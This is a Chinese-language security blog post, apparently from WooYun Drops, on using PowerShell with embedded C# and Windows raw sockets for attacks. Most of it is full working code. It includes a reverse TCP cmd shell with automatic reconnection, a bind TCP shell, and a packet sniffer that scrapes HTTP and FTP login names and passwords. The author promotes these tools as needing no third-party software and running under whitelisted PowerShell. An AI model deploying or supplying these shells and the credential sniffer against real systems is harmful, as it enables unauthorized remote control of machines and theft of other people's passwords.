





# Powershell and Windows RAW SOCKET 

2015/01/20 11:37 | [DM_](http://drops.wooyun.org/author/DM_ "由 DM_ 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## Powershell c# and .NET

* * *

大家都知道 powershell 有一个非常厉害的地方是可以直接调用.net 框架，并且.net 框架在 windows7/2008 及以后是默认安装的。 Powershell 调用.net 框架可以有多种方法，最简单的方法是写 c#代码然后直接运行，或者在 powershell 中使用 new-object 创建.net 对象，然后再调用。



(在 powershell 中运行 c#代码)



(在 powershell 中直接创建.net 对象)

当然 powershell 还有很多方法运行 c#代码。

## Windows Raw Socket

* * *

[raw socket](http://msdn.microsoft.com/en-us/library/windows/desktop/ms740548%28v=vs.85%29.aspx)提供了底层网络包的操作，所以需要 administrator 的权限,关于当前环境支持的 raw socket 的详细信息可以通过下面的命令查看。

```
netsh winsock show catalog 
```

关于 c#调用 socket 的[文档](http://msdn.microsoft.com/zh-cn/library/system.net.sockets.socket%28v=vs.90%29.aspx)，你可以在 msdn 的链接中找到，注意 socket 对象在.net3.5 和其他版本中有一些差异。

## evil things

* * *

通晓上面的过程后，就明白基本的网络操作都可以用 powershell 完成，比如端口扫描，CMD SHELL，文件上传下载,嗅探等。

**重要的是这些操作不需要任何第三方的支持！**

**因为 windows 安装后就具备了这些条件！**

**而且这些操作是以白名单的 powershell 运行的!**

比如构建一个反向连接的 CMDSHELL 熟悉上面的过程之后，写起来就会变得很简单，首先我们需要用 c#写一个反向交互式 CMD shell 的对象，加上定时回连的功能，并且注意这个对象必须是 public 的，这样才能在 powershell 中调用。然后将你的代码复制进一个新的 ps1 文件中，并且用 Add-Type @’ ’@包含，之后就可以调用这个对象了。当然你也可以直接用 powershell 调用.NET 的 socket 与 Process 和其他对象(主要)构建一个反向交互式的 CMDSHELL。

## Demo

* * *

**Reverse TCP SHELL**

在这里并不是调用的 raw socket，所以不需要 administrator 权限，下面的 Bind TCP shell 也是。只有 sniffer 需要 administrator 权限。



```
$Addr = "127.0.0.1"
$Port = 6666
$SleepTime = 5 #seconds

Add-Type @'
using System;
using System.IO;
using System.Net;
using System.Net.Sockets;
using System.Text;
using System.Diagnostics;

public class ReverseTCPShell
{
    public static TcpClient tcpClient;
    public static NetworkStream stream;
    public static StreamReader streamReader;
    public static StreamWriter streamWriter;
    public static StringBuilder UserInput;

    public static void run(string IP, int port, int SleepTime)
    {
        for (; ; )
        {
            start(IP, port, SleepTime);
            System.Threading.Thread.Sleep(SleepTime * 1000);
        }   
    }
    public static void start(string IP, int port, int SleepTime)
    {
        tcpClient = new TcpClient();
        UserInput = new StringBuilder();

        if (!tcpClient.Connected)
        {
            try
            {
                tcpClient.Connect(IP, port);
                stream = tcpClient.GetStream();
                streamReader = new StreamReader(stream, System.Text.Encoding.Default);
                streamWriter = new StreamWriter(stream, System.Text.Encoding.Default);
            }
            catch (Exception)
            {
                return;
            }

            Process CmdProc;
            CmdProc = new Process();

            CmdProc.StartInfo.FileName = "cmd.exe";
            CmdProc.StartInfo.UseShellExecute = false;
            CmdProc.StartInfo.RedirectStandardInput = true;
            CmdProc.StartInfo.RedirectStandardOutput = true;
            CmdProc.StartInfo.RedirectStandardError = true;

            CmdProc.OutputDataReceived += new DataReceivedEventHandler(SortOutputHandler);
            CmdProc.ErrorDataReceived += new DataReceivedEventHandler(SortOutputHandler);

            CmdProc.Start();
            CmdProc.BeginOutputReadLine();
            CmdProc.BeginErrorReadLine();

            while (true)
            {
                try
                {
                    UserInput.Append(streamReader.ReadLine());
                    CmdProc.StandardInput.WriteLine(UserInput);
                    UserInput.Remove(0, UserInput.Length);
                }
                catch (Exception)
                {
                    streamReader.Close();
                    streamWriter.Close();
                    CmdProc.Kill();
                    break;
                }
            }
        }
    }

    public static void SortOutputHandler(object sendingProcess, DataReceivedEventArgs outLine)
    {
        StringBuilder strOutput = new StringBuilder();

        if (!String.IsNullOrEmpty(outLine.Data))
        {
            try
            {
                strOutput.Append(outLine.Data);
                streamWriter.WriteLine(strOutput);
                streamWriter.Flush();
            }
            catch (Exception) { }
        }
    }
}

'@
[ReverseTCPShell]::run($addr, $port, $SleepTime)

```

**Bind TCP SHELL**



```
$port = 2233

Add-Type @'
using System;
using System.IO;
using System.Net;
using System.Net.Sockets;
using System.Text;
using System.Diagnostics;

public class BindTCPShell
{
    public static NetworkStream stream;
    public static StreamReader streamReader;
    public static StreamWriter streamWriter;
    public static StringBuilder UserInput;

    public static void run(int port)
    {
        try
        {
            IPAddress localAddr = IPAddress.Parse("127.0.0.1");
            TcpListener server = new TcpListener(localAddr, port);

            while (true)
            {

                server.Start();

                TcpClient client = server.AcceptTcpClient();
                Byte[] bytes = new Byte[client.ReceiveBufferSize];

                Process CmdProc;
                CmdProc = new Process();

                CmdProc.StartInfo.FileName = "cmd.exe";
                CmdProc.StartInfo.UseShellExecute = false;
                CmdProc.StartInfo.RedirectStandardInput = true;
                CmdProc.StartInfo.RedirectStandardOutput = true;
                CmdProc.StartInfo.RedirectStandardError = true;

                CmdProc.OutputDataReceived += new DataReceivedEventHandler(SortOutputHandler);
                CmdProc.ErrorDataReceived += new DataReceivedEventHandler(SortOutputHandler);

                CmdProc.Start();
                CmdProc.BeginOutputReadLine();
                CmdProc.BeginErrorReadLine();

                stream = client.GetStream();
                streamReader = new StreamReader(stream, System.Text.Encoding.Default);
                streamWriter = new StreamWriter(stream, System.Text.Encoding.Default);

                UserInput = new StringBuilder();

                while (true)
                {
                    try
                    {
                        UserInput.Append(streamReader.ReadLine());
                        UserInput.Append("\n");
                        CmdProc.StandardInput.WriteLine(UserInput);
                        UserInput.Remove(0, UserInput.Length);
                    }
                    catch (Exception)
                    {
                        streamReader.Close();
                        streamWriter.Close();
                        CmdProc.Kill();
                        break;
                    }
                }
            }
        }
        catch (SocketException)
        {
        }

    }

    public static void SortOutputHandler(object sendingProcess, DataReceivedEventArgs outLine)
    {
        StringBuilder strOutput = new StringBuilder();

        if (!String.IsNullOrEmpty(outLine.Data))
        {
            try
            {
                strOutput.Append(outLine.Data);
                streamWriter.WriteLine(strOutput);
                streamWriter.Flush();
            }
            catch (Exception ) { }
        } 
    }
}
'@
[BindTCPShell]::run($port)

```

**SNIFFER**



注意这里需要 administrator 权限。下面的 demo 只是做到了 TCP 解析的部分，filter 也只是简单的给出了 HTTP 和 FTP 的筛选，关于 IP 和 TCP 解包的部分我已经在注释中给出了。 如果有其他需求可以自行修改。

```
$Addr = "192.168.200.173"

Add-Type @'
using System;
using System.Collections.Generic;
using System.Text;
using System.Text.RegularExpressions;
using System.Net.Sockets;
using System.Net;
using System.IO;

public class Sniffer
{
    public static void run(string Addr)
    {
        try
        {
            Socket socket = new Socket(AddressFamily.InterNetwork, SocketType.Raw, ProtocolType.IP);

            using (socket)
            {
                socket.Bind(new IPEndPoint(IPAddress.Parse(Addr), 0));
                System.Console.WriteLine("[+] binded to [" + socket.LocalEndPoint + "]");
                System.Console.WriteLine();

                byte[] inValue = BitConverter.GetBytes(1); // {1,0,0,0} for receiving all packets.
                byte[] outValue = BitConverter.GetBytes(0);
                socket.IOControl(IOControlCode.ReceiveAll, inValue, outValue);

                byte[] buf = new byte[1500];
                IPEndPoint ipep = new IPEndPoint(IPAddress.Any, 0);

                int index = 0;
                while (true)
                {
                    index++;
                    ipep.Address = IPAddress.Any;
                    ipep.Port = 0;

                    EndPoint ep = (EndPoint)ipep;

                    int bufferReceivedSize = socket.ReceiveFrom(buf, ref ep);

                    IP ipPacket = new IP(buf);
                    if (ipPacket.protocol == 6)
                    {
                        TCP tcp = new TCP(ipPacket.data);
//                            System.Console.WriteLine("{0} : {1} --> {2} : {3} bytes.", (protocol)ipPacket.protocol, ipPacket.srcAddr, ipPacket.dstAddr, ipPacket.dataLen);
//                            System.Console.WriteLine("{0}=>{1}", tcp.srcPort, tcp.destPort);
                        DataFilter dataFilter = new DataFilter(tcp.data);
                    }

                }
            }
        }

        catch (SocketException err)
        {
            System.Console.WriteLine(err.Message);
            return;
        }
    }
}

public enum protocol : byte
{
    //Reference : http://en.wikipedia.org/wiki/List_of_IP_protocol_numbers

    ICMP = 1,
    IGMP = 2,
    GGP = 3,
    IPCAP = 4,
    IPSTREAM = 5,
    TCP = 6,
    EGP = 8,
    IGRP = 9,
    UDP = 17,
    IPV6OIPV4 = 29
}

class IP
{
    //you can find the details about IP packet decoding here. [http://zh.wikipedia.org/wiki/IPv4#.E6.8A.A5.E6.96.87.E7.BB.93.E6.9E.84]

    public int version;                             //[ 4bit]
    public int headLen;                             //[ 4bit]
    public int service;                             //[ 8bit]
    public int dataLen;                             //[16bit]
    public int IPIdentificationNumber;              //[16bit]
    public int flag;                                //[ 3bit]
    public int fragmentOffset;                      //[13bit]
    public byte TTL;                                //[ 8bit]
    public int protocol;                            //[ 8bit]
    public int checkSum;                            //[16bit]
    public IPAddress srcAddr;                       //[32bit]
    public IPAddress dstAddr;                       //[32bit]

    public byte[] option;                           //[32bit] #not sure, exists if headLen > 20.
    public byte[] data;                             //[32bit]

    public IP(byte[] buf)
    {
        version = (buf[0] & 0xf0) >> 4;
        headLen = (int)(buf[0] & 0x0f) * 4;
        service = (int)(buf[1]);
        dataLen = ((int)buf[2] << 8) + (int)buf[3];
        IPIdentificationNumber = ((int)buf[5] << 8) + (int)buf[5];
        flag = buf[6] >> 5;
        fragmentOffset = (((int)buf[6] & 0x1F) << 8) + (int)buf[7];
        TTL = buf[8];
        protocol = (int)buf[9];
        checkSum = ((int)buf[10] << 8) + (int)buf[11];

        byte[] addr = new byte[4];

        //srcAddr
        Array.Copy(buf, 12, addr, 0, 4);
        srcAddr = new IPAddress(addr);

        //dstAddr
        addr = new byte[4];
        Array.Copy(buf, 16, addr, 0, 4);
        dstAddr = new IPAddress(addr);

        if (headLen > 20)
        {
            option = new byte[headLen - 20];
            Array.Copy(buf, 20, option, 0, option.Length);
        }

        data = new byte[dataLen - headLen];
        Array.Copy(buf, headLen, data, 0, data.Length);
    }
}

public class TCP
{
    public int srcPort = 0;
    public int destPort = 0;
    public uint sequenceNo = 0;
    public uint nextSeqNo = 0;
    public int headLen = 0;
    public int flag = 0;
    public int windowSize = 0;
    public int checkSum = 0;
    public int urgPtr = 0;

    public byte[] option;
    public byte[] data;

    public TCP(byte[] buf)
    {
        srcPort = ((int)buf[0] << 8) + (int)buf[1];
        destPort = ((int)buf[2] << 8) + (int)buf[3];
        sequenceNo = ((uint)buf[7] << 24) + ((uint)buf[6] << 16) + ((uint)buf[5] << 8) + ((uint)buf[4]);
        nextSeqNo = ((uint)buf[11] << 24) + ((uint)buf[10] << 16) + ((uint)buf[9] << 8) + ((uint)buf[8]);
        headLen = ((buf[12] & 0xF0) >> 4) * 4;
        flag = (buf[13] & 0x3F);
        windowSize = ((int)buf[14] << 8) + (int)buf[15];
        checkSum = ((int)buf[16] << 8) + (int)buf[17];
        urgPtr = ((int)buf[18] << 8) + (int)buf[19];

        if (headLen > 20)
        {
            option = new byte[headLen - 20];
            Array.Copy(buf, 20, option, 0, option.Length);
        }

        data = new byte[buf.Length - headLen];
        Array.Copy(buf, headLen, data, 0, data.Length);

    }
}

public class DataFilter
{
    Regex SMTPAuth = new Regex("AUTH LOGIN|AUTH PLAIN", RegexOptions.IgnoreCase);

    public DataFilter(byte[] buf)
    {

        String stringsData = System.Text.Encoding.Default.GetString(buf);
//            System.Console.WriteLine(stringsData);
        List<string> HTTPdatas = HTTPFilter(buf, stringsData);
        List<string> FTPdatas = FTPFilter(buf, stringsData);

    }

    public static List<string> FTPFilter(byte[] buf, String stringsData)
    {
        Regex FTPUser = new Regex("(?<=USER )[^\r]*", RegexOptions.IgnoreCase);
        Regex FTPPass = new Regex("(?<=PASS )[^\r]*", RegexOptions.IgnoreCase);

        List<string> r = new List<string>();
        if (FTPUser.IsMatch(stringsData)){
            MatchCollection username = FTPUser.Matches(stringsData);
            MatchCollection password = FTPUser.Matches(stringsData);
            System.Console.WriteLine();
            System.Console.WriteLine(String.Format("FTP username:{0}  password:{1}", username[0].ToString(), password[0].ToString()));
            r.Add(String.Format("FTP username:{0}  password:{1}", username[0].ToString(), password[0].ToString()));
        }

        return r;
    }

    public static List<string> HTTPFilter(byte[] buf, String stringsData)
    {
        String[] HTTPfileds = {
                                    //usernames
                                    "log","login", "wpname", "ahd_username", "unickname", "nickname", "user", "user_name",
                                    "alias", "pseudo", "email", "username", "_username", "userid", "form_loginname", "loginname",
                                    "login_id", "loginid", "session_key", "sessionkey", "pop_login", "screename",
                                    "uname", "ulogin", "acctname", "account", "member", "mailaddress", "membername", "login_username",
                                    "login_email", "loginusername", "loginemail", "uin", "sign-in",

                                    //passwords
                                    "ahd_password", "pass", "password", "_password", "passwd", "session_password", "sessionpassword", 
                                    "login_password", "loginpassword", "form_pw", "pw", "userpassword", "pwd", "upassword", "login_password",
                                    "passwort", "passwrd", "wppassword", "upasswd"
                                };

        List<string> r = new List<string>();

        for (int i = 0; i < HTTPfileds.Length; i++)
        {
            Regex testPattern = new Regex(String.Format("{0}=([^&]+)", HTTPfileds[i]), RegexOptions.IgnoreCase);
            if (testPattern.IsMatch(stringsData))
            {
                MatchCollection m = testPattern.Matches(stringsData);
//                    System.Console.WriteLine();
                System.Console.WriteLine(m[0]);
//                    System.Console.WriteLine(stringsData);
                r.Add(m[0].ToString());
            }
        }

        return r;
    }

}
'@

[Sniffer]::run($Addr)

```

版权声明：未经授权禁止转载 [DM_](http://drops.wooyun.org/author/DM_ "由 DM_ 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [metasploit 渗透测试笔记(内网渗透篇)](http://drops.wooyun.org/tips/2746)
*   [基于 snmp 的反射攻击的理论及其实现](http://drops.wooyun.org/tips/2106)
*   [从 Windows 到安卓：多重攻击机制的远控的分析](http://drops.wooyun.org/papers/1270)
*   [Spring 框架问题分析](http://drops.wooyun.org/tips/2892)
*   [远程备份数据库和文件的方法](http://drops.wooyun.org/tips/783)
*   [攻击 JavaWeb 应用[3]-SQL 注入[1]](http://drops.wooyun.org/tips/236)